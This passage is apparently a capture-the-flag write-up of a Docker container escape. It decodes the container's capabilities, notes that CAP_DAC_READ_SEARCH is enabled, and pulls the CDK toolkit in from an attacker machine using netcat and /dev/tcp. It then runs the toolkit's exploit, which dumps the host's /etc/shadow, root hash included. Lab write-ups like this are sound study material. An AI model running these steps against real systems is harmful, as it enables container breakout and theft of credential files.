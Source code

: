 ```
NoNewPrivs:     0
Seccomp:        2
Speculation_Store_Bypass:       thread force mitigated
Cpus_allowed:   00000000,00000000,00000000,00000003
Cpus_allowed_list:      0-1
Mems_allowed:   00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000001
Mems_allowed_list:      0
voluntary_ctxt_switches:        0
nonvoluntary_ctxt_switches:     0
```

I checked `00000000a80425fd` using `capsh` on my own Kali machine and found that it meant these:

{% code overflow="wrap" %}
```
$ capsh --decode=00000000a80425fd
0x00000000a80425fd=cap_chown,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
```
{% endcode %}

It seems that we have the `CAP_DAC_READ_SEARCH` capability enabled. This capability allows us to bypass **all** file permissions and read any file. This means **any file, even those outside of the mountspace**. Since this is a Docker and (probably) is mounted on the main machine, this allows us to read all files within the main machine, including the root flag.

When searching for tools I could use to exploit, I came across this:

{% embed url="https://github.com/cdk-team/CDK" %}

This was a great tool kit to use to enumerate and exploit the capabilities within Containers that had nothing else to offer. From the repository, we can transfer it like so:

```bash
# on kali
nc -lvp 999 < cdk
# on docker
cat < /dev/tcp/10.10.14.13/999 > cdk
```

Then, the file would be downloaded. We can try running the exploit for our capability:

```
root@c150397ccd63:/home# ./cdk run cap-dac-read-search
Running with target: /etc/shadow, ref: /etc/hostname
root:$6$9GrOpvcijuCP93rg$tkcyh.ZwH5w9AHrm66awD9nLzMHv32QqZYGiIfuLow4V1PBkY0xsKoyZnM3.AI.yGWfFLOFDSKsIR9XnKLbIY1:19066:0:99999:7:::
daemon:*:18659:0:99999:7:::
bin:*:18659:0:99999:7:::
sys:*:18659:0:99999:7:::
sync:*:18659:0:99999:7:::
games:*:18659:0:99999:7:::
man:*:18659:0:99999:7:::
lp:*:18659:0:99999:7:::
mail:*:18659:0:99999:7:::
news:*:18659:0:99999:7:::
uucp:*:18659:0:99999:7:::
proxy:*:18659:0:99999:7:::
www-data:*:18659:0:99999:7:::
backup:*:18659:0:99999:7:::
list:*:18659:0:99999:7:::
irc:*:18659:0:99999:7:::
gnats:*:18659:0:99999:7:::
nobody:*:18659:0:99999:7:::
systemd-network:*:18659:0:99999:7:::
```